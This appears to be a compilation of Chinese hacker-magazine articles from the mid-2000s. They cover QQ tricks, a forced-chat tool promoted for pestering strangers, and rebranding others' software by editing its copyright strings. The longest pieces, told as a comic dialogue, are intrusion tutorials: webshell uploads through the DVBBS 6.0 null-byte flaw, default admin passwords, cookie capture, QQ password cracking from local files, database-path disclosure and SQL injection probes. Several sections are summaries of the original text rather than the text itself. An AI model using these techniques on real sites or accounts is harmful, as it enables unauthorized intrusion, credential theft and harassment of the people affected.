如果你像我一样口袋里没有多少钱，又想用这些收费头像……（正文）


这里以头像规格为40×40为例……通过修改页面代码即可实现免费使用……（正文结尾）

## 玩转QQ强聊聊天

### 一、总玩篇

今天没事去黑客基地的网站逛逛，准备找些教程看看，发现一个好东西，这款软件叫黑超QQ强制聊天器。相信打开软件看了使用说明后，你就很清楚用途了，是用来和非好友QQ强制聊天的。对于那些在网吧看到美女QQ，却无奈如何也敲不开门的朋友，的确是个宝贝。

首先你的机器上必须至少开一个QQ，然后在输入的强行聊天号码后填上你要强聊聊天的QQ号码，点下“确定”按钮就可以了，发送成功后，就会出现以下窗口，如图1。


这时候，想如何打动美女芳心，让她开门，就看你的嘴上功夫了。当然，如果死不开门，我们以后随身携带，随时骚扰。相信这个软件使用起来真的非常简单。

不过要注意一点，如果对方的版本不支持临时会话，也就是如果强制聊天对方QQ版本低于2004II版本，就不能进行QQ传送消息，如图2。因为软件就是利用这个功能来完成强制聊天的。


大家使用时也可以发现软件还有一个隐藏功能就是跳出隐身QQ。当然，利用魔法表情也可以达到，当对方隐身或者在线，强制聊天窗可以运行，不在线就会有提示。希望大家能用得开心，下面进入今天的重头戏。转篇，爱炫的朋友别走开。

### 二、转篇

有些软件的确好用，可是终究还是别人的东西，就像这款QQ强聊聊天器。我们拿到手上就一定有发给好友的冲动吧？可如何让别人的成为自己的，让好友对你称赞和羡慕不已。下面就自己动手，来给软件动下手术。来个完美转换！

首先习惯性地看看这个工具是否加壳，果然，12k的体积，原来是套上了UPX的外衣，用UPXSHELL轻松脱壳后，QQ强聊器变成28k。下面就要请Exescope上场了，打开脱壳后的QQ强聊器，进入“资源→对话框”，就可以修改软件的一些主要标题信息；这里我们可以把自己的信息放上去，图标也可以导入你喜欢的图标，改好后保存就可以了，如图3。


可是打开软件后，在使用说明的栏目里，还有作者的QQ和制作单位。一看就知道动了手脚。咱还得WinHex没白玩呢！用WinHex打开文件，“搜索→查找文本”，这里可以输入说明里的任何信息，我就搜索“谢谢各位”，如图4。把作者的QQ改成自己的，这里我就改成我的。


制作单位也可以改成自己的单位或者称谓。但是一定要注意字节数要相同，否则会修改错误或者出现乱码。这里就算是完工了，那么继续成果进阶，我们就不改了。

现在打开修改后的软件，是不是有一种骄傲的感觉？这个就是我修改后的工具截图，如图5。是不是很炫，心动不如行动，让我们玩一回，转一回，把QQ强聊聊天器也给强聊完全占有吧！


写这篇文章不是鼓励大家去修改别人软件的版权信息，只是让你们体验一下自己动手的快乐。其实利用这个方法可以修改很多小工具，大家去慢慢探索吧。有不懂的可以去X的论坛找我。

## 让你的QQ也四脚朝天


小新

### 一、删除不必要的组件

在最近几个版本的QQ中，已经取消了选择安装的选项，直接默认安装TM、腾讯TT、QQ游戏、旋风下载。文章介绍了通过进入QQ安装目录并运行 `uninst.exe`，在“选择组件”窗口中移除不需要组件的方法。

### 二、禁用QQ功能面板的启用闭环

- 1. **禁用QQ面板功能**：可关闭“音乐中心”“内容资讯面板”“企业好友面板”“手机娱乐面板”“互动空间”等模块，减少资源占用。

```text
ContentTab.dll      用户自定义面板功能
QQNetDisk.dll       网络硬盘
BQQApplication.dll  企业好友面板
OEMApplication.dll  手机娱乐面板、内容资讯面板以及音乐中心
GroupConnection.dll 互动空间
```

- 2. **禁用QQ广告**：说明QQ广告所在目录（如 `QQ/AD`），并提到可使用外部工具进行设置后启动，实现更清爽使用。

### 三、禁用其他功能

- 1. **使用标准皮肤并删除多余皮肤**：在菜单中切换到标准界面，并删除 `NewSkins` 文件夹中的多余皮肤。
- 2. **删除QQ场景**：删除 `QQ/IMScene/Scene` 下的场景文件，并取消“接受场景邀请”选项。
- 3. **删除声音文件**：删除 `QRingFiles` 下的声音文件及整个 `Sound` 文件夹。

总结：通过以上“瘦身”操作，可显著降低QQ占用的系统资源，改善运行大型程序时的性能问题。

## 上传下载任逍遥

heizai52088@163.com

右栏文章介绍了通过20cm MINI FTP服务与FTP客户端（如LeapFTP）实现更直观的上传下载方式，以替代频繁使用CMD命令行操作。内容包含服务器配置、端口与账号设置、目录映射等步骤。


图1

现在打开LeapFTP进行连接。


图2

文末说明连接成功后即可在LeapFTP中上传、下载、修改和删除文件，操作比CMD更方便。

# 小鸡快跑


话说悟空陪唐僧西天取经回来后，隐居在花果山水帘洞，看动漫，玩玩网游，倒也过得是逍遥自在。就这样，一转眼 N 年过去了，时钟已经指到了二十一世纪的 2005 年。信息时代的 2005 年，网络极速发展，可怜的大圣，七十二变变不出信息，腾云驾雾追不上网速，当年叱咤风云的齐天大圣如今只能给人做一只看门猴儿。渐渐逼近的生活危机迫使悟空发奋图强，在闭关一年后，终于在网络安全方面小有所成，并且在黑客 X 档案开办了 X 菜鸟学堂，亲任主讲。

这日，悟空下课放走了众猴儿，发现 QQ 上八戒急呼，说要带上沙僧和师父一起来听课！悟空赶忙筋斗云将三位请到花果山的“菜鸟学堂”。

“呆子！怎么敢放着高老庄舒心的日子不过，跑来这里跟俺老孙学习安全技术？”

“哎呀，猴哥你有所不知啊！俺和高小姐一直甜甜蜜蜜地过着不谈钱就不谈仙的小日子，没事上上 QQ，看看电影，打打游戏。谁知道，有一次不知怎地竟让一黄色网站篡改了我的首页！高小姐便认准了我对她不忠，任我怎么说也不相信！现在闹到要过 11 月 11 日的光棍节了……正好听说你开了菜鸟学堂，所以才过来好好跟你学学！我一定要查出是谁改了我的首页，陷害我的！”

沙僧听罢，苦笑着摆摆手：“二师兄，别提了！你比我可好多了！我回到老家通天河，做了养鱼专业户！后来扩大生产就请人做了个网站，网上销售。可是近来发现连连亏损，一查才知道原来网站被骇客入侵，将我的数据都改掉了……这不，连家底都赔进去了！”

悟空跟着俩人都有苦衷，需要补一补网络安全的课了，可是师父他老人家又怎么也跟着来了呢？“师父，您老人家怎么也来了？”

唐僧听罢双手合十：“阿弥陀佛！为师不过是不想落在徒儿后面而已……”

“哈哈，看来，俺今天得当一回你们的师父了！说说看，你们都想学什么东西呢？”

八戒：“我来说，我来说，我要学怎么可以上网不被人改首页……”

沙僧：“俺就想知道俺的网站为啥子就被黑咯！”

唐僧：“为师想学的，你又教不了我。为师教的，你也不学。哪怕我很有诚意地请着你，你也不知道我想学什么，你不教怎么知道我想学什么呢？不可能你不会的我偏要你教，你教的我偏说不想学，大家讲道理嘛……”

（众人皆被唐僧的啰嗦气倒……）

在举手表决后，大家一致认为沙僧的建议最为合理。于是悟空单独教会八戒如何打 IE 补丁并且使用 3721 修复 IE 后，决定教会大家现在流行的网站入侵手法，让沙僧知道他的网站为何会被黑。

“沙师弟，把你的网站给俺发过来瞧瞧！”

沙僧战战兢兢地在地址栏里输入：www.沙僧牌通天鱼专卖.com。

悟空大致浏览了一下：“不得了，不得了，你的网站简直是千疮百孔，不堪一击。随便一看，就发现了上传漏洞、SQL 注射漏洞，甚至数据库还可以被暴出来恶意下载。再看看，后台管理连默认密码都没改，OH My GOD！这要不被入侵那才怪了呢！”

“啊？那不就是个狗窝了么？”

八戒一听，赶忙跑了过来：“哈哈，大师兄，快讲快讲，待会我就去捅沙师弟的马蜂窝！”

悟空敲了一下八戒的猪头：“呆子，就会欺负师弟。不过要是俺黑师弟的网站，俺首先要看看那个站是什么样的！要是纯 HTML 静态页面的话，俺是不会在上面浪费时间的。”

唐僧为了显示身为人师的地位，打断悟空的话：“嗯嗯~~（清嗓）所谓静态页面，就是不会动的页面，那些有动画 Flash 一类的网页乃为动态页面。悟空，为师所言可对？”

“不对啦！所谓静态页面和动态页面的区别是能否有与客户交互的动作！比如，网上很多免费的个人主页空间都是只支持纯静态的页面。那些做好的个人主页放在网上以后，客户访问时都是将它们下载到自己机器的临时文件夹里，用 IE 解释而已。这样的网页是可以用 VB Script 或者 JAVA Script 这些脚本程序实现一些特效，或者加入 Flash、gif 图片增强页面的动感，但是并不是动态页面。所谓动态页面是指，像 ASP（Active Server Page—动态服务页面）或者 PHP、JSP 等等，由客户请求后，服务器解释才生成最终的 HTML 页面。这样的程序往往功能强大，使用方便，当然，由于功能的增多，安全方面的隐患自然也就增加了！”

唐僧尴尬地说道：“这……，为师还是不大明白。”

“这个没关系，因为具体涉及到 ASP 什么的不符合你们现在的基础，所以俺不打算再深入地讲下去。如果有机会你们回去以后去找本讲 ASP 的书来看看，了解了 HTML 和 ASP 就会对上面的话理解更深刻了。我在这里只给出总结性的一个方法：如果你看到一个网站的所有链接都是 http://www.xxx.com/abc/de.htm 这种以 htm 或者 html 结尾的，极有可能它用的就是纯静态的页面了。这样子是没有办法入侵的，撤！而如果你看到其中有 .asp?user=悟空 这种带有参数的页面，那么就很有可能有办法入侵了。”

“哈~俺老猪找到三师弟网站上有个论坛，是 ASP 的！”

“没错！沙师弟用的这个论坛是 DVBBS 6.0 的，也就是我们俗称‘动网’的论坛。”

“他们给我做的时候明明说是动网论坛，早知道原来是‘洞网’我就不用它了……”沙僧嘟囔着。

“哈哈，其实这不能怪动网，他们现在都出到了 7.1 版了，而你还在用 6.0，这个版本可是存在严重的上传漏洞啊！”

“上传？为师到 X 档案论坛灌过水，上传过在女儿国度假的照片，上传过大话西游的 Flash，上传东西还会有漏洞？”

“没错！你们不知道上传漏洞有什么危害，首先是因为你们还不知道什么是 ASP 木马！”

“木马？是冰河么？灰鸽子？”唐僧昂头挺胸，自信满满地想：这次我说对了吧！

“师父，您又错了！ASP 木马和普通的木马不是一回事！可以说，ASP 木马只是利用了 ASP 的特性，可以具有对网站上的文件进行操作和在服务器上执行命令等功能，有些 ASP 木马同时也是网站管理员非常喜欢的管理网站的好帮手！这样用浏览器就可以看到网站里所有的文件，查看服务器的信息，操作数据库，甚至可以执行我们需要的命令而完全控制整个服务器，只要提升了权限！”

八戒听得都流口水了：“原来 ASP 木马这么好玩啊？那它们长什么样子？放在我电脑上要是不小心点了会不会中木马啊？”

“不会的啦！ASP 木马其实只是一段 ASP 程序，而且你可以以文本格式保存下来，用记事本打开它！这样可以看到它的代码！而且，它对系统也是一点危害都没有的！这里给你们看一下……”

“我电脑里保存的几个 ASP 木马（图1、图2）。”


图 1


图 2

“原来 ASP 木马是这样子的啊！那怎么用呢？”八戒迫不及待地想玩一玩这个新鲜的木马了！

“ASP 木马，顾名思义是需要支持 ASP 空间的网站才可以用的。我们现在拿我自己的电脑来示范一下，我的电脑使用的是 Win2000 Server 系统，安装了 IIS，是可以支持 ASP 的，这个环境就和沙师弟的网站是一样的（图3）。”


图 3

“如果没有 IIS 的支持，ASP 木马在不支持 ASP 的空间里运行就是这个样子的。”悟空继续解释道（图4）。


图 4

“而有了 IIS 支持以后，能够解释 ASP 文件里的内容，才会生成我们刚才看到的东西。我们使用海阳顶端 2006 示范一下 ASP 木马的使用。首先，我们要用记事本打开它，找到里面密码设置的部分，改为我们自己的密码，这样避免别人看到我们的木马以后也能使用。”

大家纷纷改好了属于自己的密码以后，叫悟空用 IIS 打开来看，看到了登录的界面了。

“这个海阳木马在经过 Marcos 的修改及优化后，现在功能非常地强大，当然，个头也是稍微大了一点，这里按钮不少，大家可以随便点（图5）。”


图 5

“OH, My GOD! 这不相当于什么都可以做了吗？而且只需要浏览器就可以控制网站上的一切了！”沙僧也开始“OH，MY GOD”了。

悟空得意地看了一下三人，开始说道：“好了，具体的操作你们只要自己打开看看，就会觉得很容易上手了！我着重解释一下入侵的时候最常用的几个选项。系统服务信息和服务器相关数据是查看服务器信息的；FSO 文件浏览操作器和 Shell.Application 文件浏览操作器顾名思义是用来操作文件的了；而 WScript.Shell 程序运行器则是运行程序的！可以说，在实际的入侵过程中，经常会遇到权限设置比较好的服务器是不允许你执行命令的！这时候，它们往往只是设置了 cmd.exe 的权限不允许普通用户运行而已，我们只需要传一个自己写的 cmd.exe 上去，再把路径这个地方的 cmd.exe 改成我们上传后 cmd.exe 的物理路径填入就可以了。实在不行还可以试试 WScript.Shell，这也是我觉得海阳比较老的站长助手使用最好的地方了！有时候一个网页木马的执行命令功能对提升权限是至关重要的！”

悟空还在滔滔不绝的时候，三人已经兴冲冲地玩起 ASP 木马来了！唐僧一边狂点鼠标一边流着口水说：“嘿嘿，真好玩！”还是沙僧记得正题：“猴儿哥，你不是说要讲上传漏洞么？怎么提到这去了？”

悟空敲了一下沙僧的头：“沙师弟，你什么时候也变得和八戒一样呆了？ASP 木马要传到别人的网站上，才能使用嘛！平时灌水的时候你没发现，论坛允许上传的格式都是 jpg 之类的，而 asp 类型是禁止的！如果程序有漏洞使得我们可以把 ASP 木马上传上去，我们就可以直接控制整个网站，这就是我们所说的上传漏洞！”唐僧一听到这话，马上呆住了，喃喃道：“阿弥陀佛的佛，那我把 ASP 木马改为 .jpg 格式上传，然后再访问不就行了？哈哈，还是为师厉害！这一定就是传说中的上传漏洞了！没错！一定是的！”

众人皆倒！半晌后，悟空从地上爬起来对唐僧说道：“ASP 文件要以 ASP 格式保存在服务器上，里面的内容才会得到正确的解释！如果有你说的那么简单的话，俺们还混个P。”

> **小提示：** 这里不一定非得是 .asp 格式，实际上，如果是 .asp、.cer、.cdx、.asa、.htw 中的任何一种文件格式，都是以 asp.dll 来解释的！

唐僧脸红得像悟空的屁股一样，再也不敢随便不懂装懂了：“那，是怎么回事？”

“嘿嘿，师父，我们一起到沙师弟的论坛上发个帖子就知道了！发帖的时候，照你说的，把我们的木马改名为 .jpg，然后上传上去！...”


“和用记事本打开的效果一样！虽然传到服务器上了，可是并没有执行啊……”沙僧憋得满脸通红，终于忍不住第一个喊了出来。

“没错！我们注意一下，这里论坛保存的时候是这么保存的，[2005-4-9 11:18:27 +2757003+.+jpg]=20054911182757003.jpg。”

八戒忽然小眼一睁，指着屏幕问道：“我说猴儿哥，uploadfile 这个目录是怎么来的？”

悟空兴奋地拍着八戒道：“嘿嘿，呆子不错啊！比师父强多了！这个目录其实也是由我们提交的！...”


眼见众人迷惑的表情，悟空继续解释：“由于路径可以由我们提交，如果我们人为精心构造特殊的目录，比如 filepath 这个路径变量名的值被我们改成了‘UploadFile/海洋木马.asp○’提交（这里的‘○’代表 ASCII 码为 00 的特殊字符！）。”

唐僧机械地把完整的路径写了出来：UploadFile/海洋木马.asp○20054911182757003.jpg。“我知道了！我学 C 语言的时候佛祖告诉过我，当电脑读到 ASCII 码为 00 的字符时，认为字符串已经结束了！于是后面的东西被忽略掉了！...”

“BINGO！就是这样！这个漏洞最初公布的时候需要人们手工抓包，修改里面的字符，然后用 nc 提交... 今天我抛开 ASP 程序里的具体语句用这个方法来说明，但是，事实上，从这以后，上传漏洞就开始了多种多样的利用方式！”

“路径可以改，那是不是文件名也可以改？”八戒好像吃错药了一样问。

“呵呵，正是如此，如果我们上传的文件是 photo.jpg... 我们就提交 photo.asp○.jpg，这样保存下来就又是 asp 文件了！”

“是这样的！不过这还要求 ASP 程序是从左到右读文件名才行。所以并不是所有的文件都可以这么利用的！”悟空看到二位师弟领悟能力如此之高，倍觉欣慰...


“大师兄，那你教我们如何抓包和修改数据包来利用这个漏洞么？”沙僧诚恳地说。

“沙师弟，别见外了！俺老孙今天教你们更简单的利用方式！用现成的工具！...”

“大师兄，你还没说怎么知道沙师弟的论坛有上传漏洞呢！我们怎么判断啊？”八戒挠了挠鼻子。

“看俺老孙的记性！这个很简单，首先，俺从它底部的版权知道它是 DVBBS 6.0 的。如果没有打补丁的话，直接访问 upfile.asp 就会出现如图 9 所示的这个提示。”


给大家看完 upfile.asp 后，悟空继续说道：“当然，具体是否存在漏洞我们还要实验才知道！我们在老吴的工具提交地址栏里填入 http://localhost/upfile.asp，因为动网论坛是路径自定义的，所以我们选中该选项。以后遇到其它类型的上传漏洞的时候，我们就要先了解它是属于哪一种，当然，你两种都试一下也没问题。上传路径是指，传到网站上的哪个地方。默认是 shell.asp，那么传上去了以后，访问 http://localhost/shell.asp 就可以了。把加文件头的小钩取消，点提交（图10）！从 myface.value='shell.asp图片上传成功！我们可以看到我们的马儿传到了哪里（因为有些上传漏洞并没有把路径返回给我们，需要自己找），同时仔细看的话，会发现这个返回信息是缺了一个单引号的，这是为什么你们可以自己想想。”


图10

八戒撒开还在迷惘的师父，很干脆地在地址栏里输入沙僧的网站，轻松地将 ASP 站长助手传上去了。却发现访问不了（这里注意，ASP 站长助手 6.0 登录的时候需要手工加入 ?action=login，也就是访问的时候需要访问 http://localhost/shell.asp?action=login，否则会被转向站点根目录），而传海阳 2006 根本就找不到页面！

悟空看在眼里，慢慢伸出猴爪抚摸着八戒：“八戒，什么时候变得比俺还猴急呢？海阳 2006 这种大名鼎鼎的马儿，众杀毒软件早就见它不爽，如鲠在喉了，你传上去不被杀算是奇迹啊！而且，这东西那么大，70 多 K，有些朋友用小猫上网，说不定传都传不上去呢！”

八戒满脸堆笑，轻轻搓搓悟空问：“这个，大师兄，那应该怎么做呢？”

悟空按下一根猴毛：“如果马儿像你这么大，传上去不方便，还容易把人家的网站服务器搞挂了，而如果有像俺这根猴毛这么小的马儿就好办了！”

沙僧：“嗯，这个我知道，以前有个臭要饭的跟我要鱼的时候，送过一个叫 newmm.asp 的东西给我作为报答，还说这是免杀的！”接着赶忙拿出了 newmm.asp，传了上去（图11）。


图11

“悟空，你再教教大伙如何使用这个 newmm.asp 吧！”唐僧似乎经过神来之笔了。

“这个马儿再简单不过了啊！上面的解释也很容易！根据马儿的绝对路径，可以写出你要保存的马儿的绝对路径，马的内容里就是把你想要传的马儿的源码填进里面。然后点保存！这里要注意的是，如果你填的文件名原先不存在，则会新建一个；而如果你填的文件名与原先服务器存在的文件重名，就会覆盖掉别人的文件。这里一定要小心！然后再用相对路径访问就好了！”

“唉，我说师父啊，怎么连这你都还没搞明白呢？刚才玩 ASP 木马的时候咱们不是发现了吗？现在网站大多数使用的是虚拟主机。那样一台服务器上会有上百个网站。他们是这样子分布的：比如在 D 盘里建一个 web 文件夹，里面再分若干个目录，每一个网站对应自己的目录。比如：www.web1.com 的所有文件都在 D:\WEB\WEB1 下，www.web2.net 的所有文件都在 D:\WEB\WEB2 下。如果 web1 这个网站在自己的目录下新建一个文件夹放论坛，名字为 BBS，那么，我们访问该论坛的时候，用的是 www.web1.com/bbs 来访问的，这里 /bbs 是相对路径，而在服务器上面，它的绝对路径就是 D:\WEB\WEB1\BBS。如果我们要放一个 ASP 木马，写 D:\WEB\WEB1\BBS\SHELL.ASP 之后，要访问木马就是 www.web1.com/bbs/shell.asp”……

八戒也明白了，于是甩手蹬脚地跑到一边，打开沙僧的网站，再点上传！看看返回的消息：“八戒，想什么呢？”upfile.asp 里的内容居然已经是这个东西了！回头看到沙僧等人满脸得意的笑，八戒一咬牙，从荷包里掏出一串香蕉：“猴儿哥，你过来再教俺一个绝技，来黑掉师弟吧。”

悟空一边吃着香蕉，一边偷偷拉着八戒的招风耳：“呆子，我说过了，DVBBS 只是拉开了上传漏洞的序幕，自此以后，各种各样的系统上传文件都出现过漏洞。你就不会仔细找找，师弟的站上还有什么地方可以上传啊？尤其是后台管理上传文件的地方，更是值得发掘，因为好多人写程序的时候，最容易忽略的就是这里了。”


图12

悟空话音刚落，就看到八戒根据沙僧首页的“Powered by: MyPower Ver3.5”找到了一个资源，发现这套源码里有很多能够上传文件的地方，看到头都大了，还是不知道如何利用！悟空过来指点道：“这个系统的后台就是典型的文件名自定义上传漏洞！不过有几个地方需要注意的！它需要登录后台后才能使用。当然，这个容易，沙师弟改了论坛的密码，他可没改这个文章系统的管理员密码呢？依然是 admin 做用户名和 admin888 做密码！”

八戒登录以后，便使用老兵通用上传工具开始了实验，可是，看到的提示却是要求登录（图12）！八戒不解道：“猴哥，他明明是登录了的啊！”

悟空吃了别人的嘴软，只好耐心解释：“服务器判断你是否登录是要看你提交信息时的 cookie 信息的！刚才你们没注意到上传工具里的 cookie 这一项吗？”

“cookie？小甜饼？”虽然是英文，八戒一提到吃的还是很精神的！

“cookie 是访问动态页面时，自动在客户端电脑上生成的一个小文件。你打开‘IE 属性->设置->查看文件’就可以看到自己电脑上的 cookie 文件了（图13）。这里面保存着一些比如你的用户名、密码、身份、登录时间等信息。像论坛就是利用这些来判断客人的身份的（其实为了安全，用 session 更好些，这个方面的东西以后有机会再介绍）。当然，在平常玩上传漏洞时，我们是用 WSE 来抓包获取 cookie 的！”

# 小鸡快跑


图13

图15

“WSockExpert”就是你刚才用来显示 filepath 的那个东西吗？俺记得您怎么用的，现在俺来操作一遍！先打开 WSockExpert，然后点“open”，找到 IEXPLORE，这是俺的浏览器，找到上传文件的那个地方，再点 open，就开始监听了！然后再回到浏览器刷新一下，WSE 就抓到数据包了（图14）。嗯嗯，让俺老猪找到了（图15）。


图14


图16

“把 cookie 后面的东西复制下来，贴到上传工具的 cookie 里，然后瞄准 Upfile_Soft.asp，选择文件名自定义，把‘.’加文件头的钩去掉（否则 IE 无法正常显示，而 FIREFOX 浏览器则可以），然后提交，嘿嘿，GO! LUCK（图16）。”

“成功了！”八戒兴奋地跳了起来……

老孙再做个总结，大家就下课吧！上传漏洞是所有漏洞中危害最大、使用方法也最简单的漏洞。今天给你们讲的路径自定义和文件名自定义仅仅是其中的两种而已！以后大家也许还会碰到一些更简单的上传漏洞……

## QQ2005 贺岁版

### 暴力口令加密算法破解

magic dog


QQ2005 贺岁版的加密原理与以前的版本比较起来，并没有新的改变。密码在正确登录后，会将加密的结果保存在用户目录的 ewh.db 文件中。加密采用 MD5 算法，通过 N 次循环以及异或后求反，最终计算出加密结果，与用户的 ewh.db 文件中的密文比较，以判断输入的密码是否正确……

……QQ 把登录的口令保存在本地用户目录的 ewh.db 文件里，这就使得本地破解成为了可能。当然了，说得轻巧，真要实现起来，却并不这么容易，因为 QQ 使用了 N 次的循环加密……

Hash（哈希）值，而 Hash 散列算法非常容易产生碰撞，也就是完全不同的密码产生的 Hash 值有可能是相同的。这样一来，我们的破解速度就提高了许多。虽然如此，可依靠这种破解在现实中仍然是很难实现的……

安全焦点上发的帖子（https://www.xfocus.net/bbs/index.php?act=ST&f=2&t=47269），我想菜鸟朋友们最关心的还是实际的操作。好的，下边我们就以实例来讲解一下如何使用 QQCrack 来破解 QQ2005 贺岁版的口令。

以我的 QQ 为例，我把 QQ 安装在了 E 盘，具体路径是 E:\fun\game\QQ\QQ.EXE，而我们要的文件，就是保存该用户密码的 DB 文件（数据库文件），在 E:\fun\game\QQ\182397012\EWH.db。“EWH.db”就是保存密码的文件了。腾讯 QQ 有个记录密码的功能，目的是方便在家上网的用户每次登录 QQ 时不用再烦琐地输入号码和密码，这个在我们看来腾讯简直是在自杀！但是你也别高兴得太早，虽然你没有选择“记录密码”，而你的密码仍会保存在这个 DB 文件里，以方便 QQ 程序从本地读取用户信息而不用再向服务器发送请求读取用户信息，这样便缩短了用户登录上 QQ 的时间。但是万事有利即有弊，今天我就给大家说下怎么从 EWH.db 文件下手获取用户密码。^^（嘿，台下那位仁兄别流口水啦~）。

首先给大家介绍款破解 QQ2005 贺岁版本地密码的工具：QQCrack。实际上我们还是采用的暴力破解本地密码，QQCrack 主界面如图1。


“QQ 文件”处是输入正确你要破解的用户的“EWH3.DB”文件的路径，当你选择后“QQ 号码”处会显示要破解的 QQ 号，“QQ 文件Hash”处显示经过了 N 次 MD5 加密的该用户的密码。下面各位就只用加载字典了，选择好文件，点击“打开”，如图2。

程序开始跑密码了，如图3。


当密码跑出来时程序会提醒你，如图4。


- 本程序不提供字典，需要自己制作字典，不过好在网上制作字典的工具多如牛毛。
- 破解速度的快慢在于你要破解的密码长度、内容复杂与否，以及你做的字典好坏，有很大关系。
- 一般情况下是一秒钟跑 3 个密码左右。比起相同的破解 MD5 的工具速度的确慢了不少，但是文章开头我就说了腾讯是把用户的密码经过了 N 次 MD5 加密，这样一来自然在破解时我们也要 MD5 加密 N 次了，而且这样一来我们也不能用一般的 MD5CRACK 软件来跑密码了，算法都不一样了。

> （文章中涉及到的程序 QQCrack 已经收录于光盘中）

## 网站入侵常见模式之数据库的入侵

悟空也闯关 [E.W.S.T]

本已说好讲完一堂课回花果山养老的悟空，受不了师父的唠叨和发发发了的“only you!”，以及八戒的死缠烂磨，又开始了新的一节课。一旁的八戒给悟空端来了一杯果汁。悟空清了清喉咙，提高了嗓门道：“很多站长听说了上传漏洞以后，都喜欢像沙师弟那样把漏洞文件一删了之。其实这只是治标不治本的方法，只能做权宜之计！升级论坛到最新版本，打补丁才是上上之策。而且，其实动网 6.0 还有好多大漏洞呢！最简单的，比如暴库！”

“暴库？”三人睁大了眼睛，脑海中浮现出成龙电影里美女爆破的场景。

“我们这里的库是指数据库，而暴呢？是指暴错！指把数据库的位置利用暴错的方法泄露出来，从而达到下载数据库的目的。”

“猴哥说否，这数据库是什么样的东西？”八戒惊愕。

“数据库，从字面上来理解可以把它当作存放数据的好大仓库。又是一门很系统很深奥的学科！你这样的智商我是没有办法和你解释清楚的。具体的东西在此并不多说，这里大家要掌握几点：第一，我们现在使用的数据库大多是第三代的关系数据库。所有的数据都以关系的形式存放。具体到实例则是一张张的二维表！每张表要有表名，里面的一行就是一个记录，而每一列表这个记录的某种属性！我知道大家听着可能头大，甚至听不懂，没关系，我们用 ACCESS 打开动网论坛的数据库 dvbbs6.mdb 给大家看看，如图1。”


“看到里面很多东西了吧！这里就是一张一张的表！admin 是管理员表的表名！user 是用户表的表名！我们打开管理员表看看，如图2。”


图2

“其中，username 是管理员管理后台时的名字，password 是 MD5 加了密的密码！flag 代表的是权限，每一个数字代表着某种权限……后面几个分别是最后登录的时间、IP 和前台对应的用户名……”

“那我们得到数据库有什么用啊？这个破东西的密码完全看不懂嘛，两个 MD5 又是什么意思呀？”

“MD5 是加密的一种方式……例如初始密码是 123456，经过 MD5 的 16 位加密后就是 49ba59abbe56e057……现在的工具（MD5_Crack 3.1）开不了几分钟就可以跑出来了。”


图3

“哈哈，我的密码是字母加数字的！跑不出来吧！”

“嘿嘿，你的密码是 admin888 对吧？”

“你怎么晓得？”

“默认的密码就是这个……”

悟空呵呵一笑，说道：“你试试默认的位置，沙师弟肯定没改！”

八戒找到说明文档，看到里面提到的数据库默认位置是 `/data/cybbs6.mdb`，于是输入 `http://www.沙僧牌通天鱼专卖.com/bbs/data/cybbs6.mdb`……

> 小提示：把 # 号用做文件名的话，如果直接用 IE 访问会只访问 # 号前面的部分……如果把 # 号改为 `%23`，例如 `http://www.沙僧牌通天鱼专卖.com/bbs/%23data.asp`，就会访问到目标资源。


图4

“可是，猴哥！你怎么知道它现在的路径在哪里啊？”

“把 `conn.asp` 前面的 `/` 改为 `%5c` 呢？”

“500 错误！怎么回事？”


“这就是沙师弟现在的数据库的位置吧？”

“呵呵，这里其实是错误的位置！真正的位置应该是 `E:\WEB\沙僧牌通天鱼专卖\bbs\data\#db\bs6GKYFhku.asp`……”

讲解：ASP 程序连接数据库一般专门有一个文件，而且由于习惯问题，很喜欢将其起名为 conn.asp。我们看看这个文件里写了些什么！只保留部分关键代码：

```asp
<%
option explicit
'可以更改数据库名字
db="data/#dvbbs6GKYFhlkuh.asp"
Set conn = Server.CreateObject("ADODB.Connection")
connstr="Provider=Microsoft.Jet.OLEDB.4.0;Data Source=" & Server.MapPath(db)
%>
```

> **小知识：**  
> SQL 查询语句格式：`select [列名] from [表名] where [限制条件]`  
> 修改语句：`update [列名] from [表名] where [限制条件]`  
> 删除语句：`delete from [表名] where [限制条件]`  
> 这里没有列名，因为删除是删一整行。如果想删某个数据可以用 update 清空。

其中一句 `Server.MapPath(db)` 就是说由虚拟路径求出完整物理路径。文中结合 IIS 与 ASP 对路径的不同解释，说明通过构造诸如 `%5c` 等路径形式可导致数据库路径暴露，并解释了在不同目录层级下该问题是否可被利用。

随后以对话形式讲到补救方法：在 `conn.asp` 增加 `on error resume next`，让出错时跳过错误提示；并继续引出“网站是否存在 SQL 注入漏洞”的话题。

接着介绍 SQL（Structured Query Language）基础，并以 `select [password] from [admin] where [username]='admin'` 为例，解释查询语句的含义与字段、表、条件之间的关系。

右栏通过示例参数 `id` 演示注入：原始语句 `select * from [table] where [id]=request("id")`，若未过滤输入，可构造 `12 and exists(select * from admin where username=admin)` 等条件，借助逻辑真假与函数组合推测数据库信息。

文中给出手工判断方法：在参数后分别追加 `and 1=1` 与 `and 1=2`，比较页面是否一致；也可尝试单引号触发 SQL 语法错误，以辅助判断注入点是否存在。

```text
Microsoft OLE DB Provider for SQL Server 错误 '80040e14'
第 1 行附近有语法错误。
/about.asp, 行 2
```

进一步说明为何 `and 1=1` 不改变原逻辑而 `and 1=2` 会使条件恒假，并展示示例 URL：

- `http://xxx.com/xx.asp?id=12 and 1=1`
- `http://xxx.com/xx.asp?id=12 and 1=2`

以及等价 SQL：`select * from 表名 where id=12 and 1=2;`

```text
ADODB.Field 错误 '800a0bcd'
BOF 或 EOF 中有一个为真，或者当前记录已被删除；
所需的操作要求一个当前的记录。
/about.asp, 行 4
```

如果原 SQL 语句里有引号的话，比如：`Select * from admin where id='12'`，那么注射的时候要注意闭合语句，保证引号配对，提交时应构造成 `id=12' and '1'='1` 这类形式。随后又说明在不同数据库（如 MSSQL、ACCESS）中还可通过猜表名、猜列名、结合 ASCII/MID 等方式逐步还原数据。

> **小知识：** 利用 `mid` 函数可从字符串中取出部分字符，如 `mid("abcde",2,1)` 结果为 `b`；再配合 `asc` 可判断字符 ASCII 值，例如 `asc(mid(password,3,1))>97`。

作者表示现成工具已很多，手工部分可简化，接下来介绍市面上常见的几种 SQL 注射辅助工具（含广告倾向）。

### 1. 传说中国内最早的 SQL 工具——绝世猜解

文中提到早期安全圈常出现该工具名，称其在当时较有影响力，并给出界面示例。


介绍了使用方式：点击按钮、填写 URL 与字典后即可开始；强调其上手简单，适合快速操作。

### 2. 小榕的 WED 和 WIS

该节说明 WED 与 WIS 的分工：WED 偏向猜解与利用，WIS 可用于前期扫描；并讨论多参数 URL、命令执行特征、稳定性与速度等实际体验，提到在不同数据库环境下表现差异明显。


